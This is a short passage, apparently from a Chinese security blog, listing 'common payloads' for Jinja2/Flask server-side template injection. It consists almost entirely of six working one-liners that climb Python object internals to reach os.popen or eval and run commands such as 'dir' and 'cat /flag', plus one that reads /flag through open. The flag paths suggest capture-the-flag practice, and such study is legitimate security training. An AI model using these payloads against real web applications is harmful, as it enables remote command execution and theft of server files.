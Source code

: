 [![在这里插入图片描述](assets/1698900310-30b2ad079fc9e6948fe633b424199807.png)](https://storage.tttang.com/media/attachment/2022/08/14/30c9d9c4-f7b1-418c-a09c-8a308b9272c8.png)

# [常用 payload](#toc_payload)

```plain
1、任意命令执行
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('dir').read()%}{%endif%}{%endfor%}
2、任意命令执行
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('cat /flag').read()}}
//这个 138 对应的类是 os._wrap_close，只需要找到这个类的索引就可以利用这个 payload
3、任意命令执行
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
4、任意命令执行
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
//x 的含义是可以为任意字母，不仅仅限于 x
5、任意命令执行
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
6、文件读取
{{x.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
//x 的含义是可以为任意字母，不仅仅限于 x
```
